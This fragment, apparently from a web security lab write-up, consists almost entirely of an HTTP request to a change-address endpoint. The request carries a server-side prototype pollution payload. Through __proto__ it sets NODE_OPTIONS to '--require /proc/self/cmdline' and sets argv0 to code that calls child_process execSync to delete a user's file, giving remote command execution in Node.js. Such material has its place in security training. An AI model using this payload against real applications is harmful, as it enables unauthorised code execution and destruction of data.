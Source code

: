 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/change-address HTTP/2

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"9w2wz2qtX8He4ofWjxuo5Lv3cGj49UjN","__proto__": {  "shell":"",    "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\"child_process\").execSync(\"rm /home/carlos/morale.txt\").toString())//"}}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/1ab8d4296c5fdcdba613e91b65ce2fae.png)
